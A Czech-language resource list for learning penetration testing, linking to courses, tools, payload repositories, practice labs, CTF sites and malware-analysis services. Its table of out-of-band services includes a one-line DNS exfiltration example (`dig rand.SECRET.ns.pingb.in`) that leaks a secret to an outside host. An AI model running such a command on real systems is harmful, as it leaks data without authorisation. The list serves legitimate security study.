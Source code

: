 # Rozcestník pro samostudium kybernetické bezpečnosti

Užitečné odkazy pro oblast kybernetické bezpečnosti, zejména penetračního testování.
Jako gitbook dostupné na [chovanecadam.gitbook.io/cybersecurity/](https://chovanecadam.gitbook.io/cybersecurity/),
gitový repozitář na [github.com/chovanecadam/cybersecurity](https://github.com/chovanecadam/cybersecurity).

Kromě odkazů sem budu přidávat i vlastní poznámky, ale to nejspíš jen sporadicky[.](https://youtu.be/dQw4w9WgXcQ)

## Interaktivní tutoriály a kurzy

* [PortsWigger Web Security Academy](https://portswigger.net/web-security)
* [Hacker 101](https://www.hacker101.com/)
* [Open Security Training](https://www.opensecuritytraining.info/)
* [Cybrary](https://www.cybrary.it/)

## OWASP

* [OWASP Top Ten Project](https://owasp.org/www-project-top-ten/)
* [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
* [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/)

## Toolkit

* [Kali Linux](https://www.kali.org/), [ParrotOS Security](https://www.parrotsec.org/)
* [Kali Tools](https://tools.kali.org/tools-listing)
* [CyberChef](https://gchq.github.io/CyberChef)

## GitHub goodies

* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [PenetrationTesting](https://github.com/wtsxDev/Penetration-Testing)

## Cheatsheets, návody, knihy

* [HackTricks](https://book.hacktricks.xyz/)
* [HackSplaining](https://www.hacksplaining.com/)
* [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [GTFOBins](https://gtfobins.github.io/)

## Videa, konference, YouTube

* [defcon.org](https://www.youtube.com/user/DEFCONConference/playlists)
* [BlackHat](https://www.youtube.com/user/BlackHatOfficialYT)
* [IppSec](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA)
* [VbScrub](https://www.youtube.com/channel/UCpoyhjwNIWZmsiKNKpsMAQQ)
* [SANS konference](https://www.sans.org/cyber-security-summit/archives/)
* [SANS webcasty](https://www.sans.org/webcasts/archive/2020)
* [Wild West Hacking Fest](https://www.youtube.com/channel/UCef0TWni8ghLcJphdmDBoxw/videos)
* [Bugcrowd](https://www.youtube.com/c/Bugcrowd/videos)
* [VirSecCon2020](https://www.youtube.com/watch?v=B3Udl86Zu20&t=8s)
* [InstallFest](https://www.youtube.com/channel/UCivNQFv0lsPN3kEy2wKPOhw)
* [Hack In The Box Security Conference](https://www.youtube.com/channel/UC0BJVNTIEbG8CLG-xVVWJnA)
* [Nahamsec](https://www.youtube.com/c/Nahamsec/videos)
* [HackTheBox](https://www.youtube.com/c/HackTheBox)
* [PortSwigger](https://www.youtube.com/c/PortSwiggerTV/videos)
* [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw)
* [Hacksplained](https://www.youtube.com/c/Hacksplained/videos)

## Podcasty

* [Malicious Life](https://malicious.life/)
* [Security Now](https://twit.tv/shows/security-now)
* [Risky Business](https://risky.biz/)
* [Darknet Diaries](https://darknetdiaries.com/)
* [CYBER](https://podcasts.apple.com/us/podcast/cyber/id1441708044)
* [The CyberWire Daily](https://thecyberwire.com/podcasts/daily-podcast)
* [Hacking Humans](https://thecyberwire.com/podcasts/hacking-humans)
* [MalwareTech Podcast](https://www.youtube.com/channel/UCLDnEn-TxejaDB8qm2AUhHQ)

## Offline virtuálky a sandboxy pro hackování

* [OWASP Juice Shop Project](https://owasp.org/www-project-juice-shop/)
* [Damn Vulnerable Web Application](https://github.com/ethicalhack3r/DVWA)
* [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)
* [Metasploitable 3](https://github.com/rapid7/metasploitable3)
* [WebGoat](https://github.com/WebGoat/WebGoat)
* [vulnhub.com](https://www.vulnhub.com/)
* [OWASP Mutillidae II](https://github.com/webpwnized/mutillidae)

## On-line cvičení a CTFs

* [Hack The Box](https://hackthebox.eu)
* [TryHackMe](https://tryhackme.com/)
* [SafeWeb.cz](https://www.safeweb.cz/)
* [HackEDU](https://www.hackedu.com/)
* [Hack This Site](https://hackthissite.org)
* [hackertest.net](https://hackertest.net)
* [root-me.org](https://root-me.org/?lang=en)
* [Secure Code Warrior](https://portal.securecodewarrior.com/)
* [ctftime.org](https://ctftime.org/)
* [thecatch.cz](https://www.thecatch.cz/)
* [attackdefense.com](https://attackdefense.com/)
* [237ctf](https://247ctf.com/)
* [CyberSecLabs](https://www.cyberseclabs.co.uk/)
* [Over The Wire](https://overthewire.org/)
* [defendtheweb.net](https://defendtheweb.net)

## Bug Bounty platformy

* [Hacker One](https://www.hackerone.com/)
* [BugCrowd](https://www.bugcrowd.com/)
* [Intigriti](https://www.intigriti.com/)

## Malware analysis

| název                                    | popis                                     |
| ---------------------------------------- | ----------------------------------------- |
| [VirusTotal](https://www.virustotal.com) | Analýza malwaru, hashe, URL, pcapu        |
| [AnyRun](https://app.any.run/)           | Interaktivní analýza malwaru              |
| [Triage](https://tria.ge/)               | Hybridní analýza malwaru                  |
| [VMRay](https://www.vmray.com)           | dynamická analýza malwaru, placená služba |
| [Hybrid Analysis](https://hybrid-analysis.com/) | dynamická analýza malwaru          |

## Temporary domény, url, emaily, OOB servery

| název                                   | popis                                                             |
| --------------------------------------- | ----------------------------------------------------------------- |
| [webhook.site](https://webhook.site/)   | asi nejlepší možnost, až 500 requestů                             |
| [pingb.in](http://pingb.in)             | data exiltration pomocí DNS lookup: `dig rand.SECRET.ns.pingb.in` |
| [RequestBin.net](http://requestbin.net) | veřejné URL, ukazuje HTTP hlavičky, POST parametry, GET parametry |

## Blogy

* [CRYPTSUS](https://cryptsus.com/blog/)

